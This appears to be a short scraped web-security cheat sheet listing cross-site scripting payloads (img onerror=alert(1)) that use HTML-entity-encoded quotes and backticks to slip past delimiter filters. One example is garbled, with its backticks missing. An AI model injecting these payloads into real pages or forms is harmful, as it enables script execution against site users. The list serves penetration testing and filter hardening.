 # Delimiters and brackers

Column: Sometimes we can play with things like delimiters by encoding them if they are blocked
Tags: <img onerror="alert(1)"src=x>
<img onerror='alert(1)'src=x>
URL encodign
<img onerror=&#34alert(1)&#34src=x>
<img onerror=&#39alert(1)&#39src=x>
Backticks
<img onerror=alert(1)src=x>
Encoded backtics
<img onerror=&#96alert(1)&#96src=x>